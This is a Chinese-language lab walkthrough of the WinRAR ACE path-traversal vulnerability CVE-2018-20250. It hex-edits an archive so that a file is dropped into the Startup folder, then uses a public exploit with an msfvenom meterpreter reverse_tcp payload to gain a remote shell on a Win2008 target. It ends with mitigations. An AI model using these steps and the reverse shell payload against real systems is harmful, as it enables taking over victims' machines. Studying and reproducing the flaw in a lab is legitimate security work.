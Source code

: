 WinRAR 代码执行相关的CVE 编号如下：

> CVE-2018-20250,CVE-2018-20251, CVE-2018-20252, CVE-2018-20253

这里我们复现最开始的WinRAR目录穿越漏洞（CVE-2018-20250）。

## 漏洞详情

### 原理：

WinRAR目录穿越漏洞（CVE-2018-20250）：

　　该漏洞是由于WinRAR 所使用的一个陈旧的动态链接库UNACEV2.dll所造成的，该动态链接库在2006  年被编译，没有任何的基础保护机制(ASLR,DEP 等)。该动态链接库的作用是处理ACE  格式文件。而在解压处理过程中存在一处目录穿越漏洞,允许解压过程写入文件至开机启动项，导致代码执行。

### 影响版本：

> WinRAR < 5.70 Beta 1
>
> Bandizip < = 6.2.0.0
>
> 好压(2345压缩) < = 5.9.8.10907
>
> 360压缩 < = 4.0.0.1170

### 漏洞利用条件：

　　攻击不能跨盘符，即受害者进行解压文件触发漏洞时，必须在系统盘，且在不知道计算机主机名的情况下，只能在主浏览器的默认下载路径下（C:\Users\Administrator\Downloads）或者桌面进行解压，或者多猜几个启动项路径。产生漏洞的DLL文件：UNACEV2.DLL，不能识别相对路径，文件名部分必须为绝对路径。

　　以下是几种机器的开机启动项路径，可以看到在个人PC上受用户名影响，无法猜测到准确的路径，而服务器上一般不会修改用户名，所以这个漏洞在服务器上利用度比较高。

Win2003开机启动项路径：C:\Documents and Settings\Administrator\「开始」菜单\程序\启动

Win2008开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win2012开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win7　 开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win10　开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup　　本次试验使用的是Win2008，

## 漏洞复现

### 环境工具：

服务器：Win2008 R2

WinRAR 5.60简体中文版：https://www.rarlab.com/rar/winrar-x64-560sc.exe

Python-3.7.2-amd64.exe：https://www.python.org/ftp/python/3.7.2/python-3.7.2-amd64.exe

010Editor：https://download.sweetscape.com/010EditorWin64Installer901.exe

Wace和模板文件：https://github.com/360-A-Team/CVE-2018-20250

EXP：https://github.com/WyAtu/CVE-2018-20250

### 漏洞复现：

这里我们写一个bat，进行弹窗演示：

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308101249378-2013483925.png)

然后打开WinAce，选中我们创建的文件，右键，点击Add to...

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308124414993-1147235497.png)

　　利用WinACE进行压缩,这里选择store full path。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308144027681-585501340.png)

　　生成之后我们利用脚本检查一下我们生成的文件1.ace的header信息：

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308133050691-1223667359.png)

这里几个是我们需要修改的参数。

 在010Edit工具中打开刚才生成的1.ace文件，将文件路径替换为启动项路径如下，然后可以看到新的完整的文件路径长度为93，转换为16进制后为：5D。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190310222141566-376777695.png)

修改完这两个地方之后点击保存，接着还需要修改hdr_size。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190310222410019-46466160.png)

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190310222513809-688780836.png)

　　这三个地方修改完成之后点击保存。

　　最后利用acefile.py重新查看文件header信息。修改acefile.py，在3061行处添加以下语句，输出文件hdr_crc。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308150606052-328146804.png)

```
print("[+] right_hdr_crc : {} | struct {} ".format(hex(ace_crc16(buf)),struct.pack('<H', ace_crc16(buf))))
print("[*] current_hdr_crc : {} | struct {}".format(hex(hcrc),struct.pack('<H', hcrc)))
```

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190310222732970-1725311033.png)

可以看到当前的hdr_crc为：16 9A，我们要把它改为E4 A3，保存之后重新查看文件header信息。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190310222933918-1700514051.png)

　　修改完成，将文件另存为1.rar。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190308155112326-854060047.png)

 选择解压到当前文件夹或解压到文件夹1都可以，可以看到bat文件成功解压到开机启动项里。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190309111018388-35896760.png)

重启电脑查看效果。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190309112143784-391653487.png)

复现成功，自动运行bat文件弹窗。

## MSF利用

 　首先下载EXP：

```
wget https://github.com/WyAtu/CVE-2018-20250/archive/master.zip
```

　　这里我解压/root/tools目录下：

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311143517293-550691516.png)

　　然后利用msf生成一个恶意程序，放到该目录下：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.86.129 lport=4444 -f exe -o /root/tools/CVE-2018-20250-master/test.exe
```

 　修改exp.py文件：

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311143753687-616685552.png)

　　将evil_filename改为我们生成的恶意程序。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311143839333-326259232.png)

　　将py -3 改为python3，修改完成之后保存，运行以下命令：

```
python3 exp.py 
```

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311144330575-562609404.png)

　　成功生成攻击文件test.rar，只要诱导用户下载解压这个压缩文件呢，就可得到用户电脑权限，这里只演示功能，我们用python简单开启一个http服务：

```
python -m SimpleHTTPServer
```

　　切换到win2008，也就是我们要攻击的目标机器。下载test.rar，然后直接在下载目录解压（也可选择在桌面解压）。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311145258413-661195825.png)

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311145455436-1464701579.png)

　　可以看到在系统的启动路径下成功解压出hi.exe文件。接着我们在kali上面开启监听，然后重启win2008。

![img](WinRAR穿透漏洞（CVE-2018-20250）.assets/1266243-20190311150039309-1543130673.png)

　　成功拿到目标机器权限。

 

## 漏洞防御

　　删除受影响压缩软件目录下UNACEV2.dll文件能有效防御。
　　升级到最新版本，WinRAR 目前版本是 5.70 Beta 1。
　　总而言之，该漏洞并没有那么致命。目标性的打站，得先欺骗下载，并再在未防护的服务器上解压，企业服务器管理员都很难会这样做。而且必须得服务器重启才能生效，不能直接执行脚本。

 